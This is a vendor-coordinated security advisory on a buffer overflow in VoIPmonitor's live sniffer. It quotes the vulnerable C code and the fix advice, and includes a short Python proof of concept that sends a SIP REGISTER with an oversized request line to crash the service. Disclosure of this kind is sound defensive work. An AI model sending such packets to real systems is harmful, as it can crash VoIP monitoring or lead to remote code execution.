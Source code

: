 # VoIPmonitor is vulnerable to a buffer overflow when using the live sniffer

- Fixed versions: 27.6
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-03-voipmonitor-livesniffer-buffer-overflow
- VoIPmonitor Security Advisory: none, changelog references fixes at https://www.voipmonitor.org/changelog-sniffer
- Tested vulnerable versions: 27.5
- Timeline:
    - Report date: 2021-02-10
	- Triaged: 2021-02-12
	- Fix provided for testing: 2021-02-15
	- VoIPmonitor release with fix: 2021-02-15
	- Enable Security advisory: 2021-03-15

## Description

A buffer overflow was identified in the VoIPmonitor live sniffer feature. The description variable in the function `save_packet_sql` is defined as a fixed length array of 1024 characters. The description is set to the value of a SIP request or response line. By setting a long request or response line VoIPmonitor will trigger a buffer overflow. The affected code is:

```c
char callidstr[1024] = "";
if(packetS->sipDataLen) {
    void *memptr = memmem(packetS->data_()+ packetS->sipDataOffset, 
        packetS->sipDataLen, "\r\n", 2);
    if(memptr) {
        memcpy(description, packetS->data_()+ packetS->sipDataOffset, 
            (char *)memptr - (char*)(packetS->data_()+ packetS->sipDataOffset));
        description[(char*)memptr - (char*)(packetS->data_()+ 
            packetS->sipDataOffset)] = '\0';
        printf("%s\n", description);
    }
    // ...
}
```

## Impact

When using the static binaries provided at the VoIPMonitor download site, this vulnerability may lead to remote code execution. This is due to lack of standard memory corruption protection as explained in a separate advisory, ES2021-04-voipmonitor-staticbuild-memory-corruption-protection.

When compiling the `voipmonitor` program from source, most modern build systems will automatically include run-time best practice checks. In such cases, it appears that the worst-case-scenario is that the program will end up crashing.

## How to reproduce the issue

1. Start the live sniffer from the VOIPMonitor GUI
2. Execute the following Python program so that VOIPMonitor is able to capture the packet
3. Observe that VOIPMonitor has crashed

```python
import socket
msg='REGISTER %s SIP/2.0\r\n' % ('a' * 1024)
msg+='Via: SIP/2.0/UDP 192.168.1.132:35393;rport;branch=z9hG4bK-kwtTkrdNAO2Wvw0v\r\n'
msg+='Max-Forwards: 70\r\n'
msg+='From: <sip:85861710@demo.sipvicious.pro>;tag=mnq1nKGNZHNUkNOG\r\n'
msg+='To: <sip:85861710@demo.sipvicious.pro>\r\n'
msg+='Call-ID: 93X9dNZO2qdcfpdu\r\n'
msg+='CSeq: 1 REGISTER\r\n'
msg+='Contact: <sip:85861710@192.168.1.132:35393;transport=udp>\r\n'
msg+='Expires: 60\r\n'
msg+='Content-Length: 0\r\n'
msg+='\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(msg.encode(), ('demo.sipvicious.pro', 5060))
```

## Solution and recommendations

To address this issue, we recommend upgrading to the latest fixed version of VoIPmonitor.

We recommended the following to the vendor:

> The length of the value that the description is being set to should be checked before it is copied into memory. The pattern `memcpy(dest, src, MIN(src_len, max_len));` could be used to safely perform this operation.

## Acknowledgements

Enable Security would like to thank Martin Vit and the developers at VoIPmonitor for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

